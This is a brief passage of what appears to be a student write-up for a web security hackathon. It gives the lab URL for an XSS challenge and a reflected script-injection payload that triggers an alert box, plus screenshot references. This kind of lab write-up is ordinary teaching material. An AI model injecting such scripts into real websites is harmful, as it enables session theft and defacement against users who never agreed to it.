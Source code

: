 ![Level 0 ](images/level0.png)

Level 1

URL : [http://waph-hackathon.eastus.cloudapp.azure.com/xss//level1/echo.php](http://waph-hackathon.eastus.cloudapp.azure.com/xss/level1/echo.php)
Leveraging XSS vulnerabilities typically entails appending a malicious script at the end of the URL.

```
input=<script>alert('Level 1 - Hacked by Vikhyath Reddy Bheemreddy')</script>
```

![Level 1 ](images/level1.png)
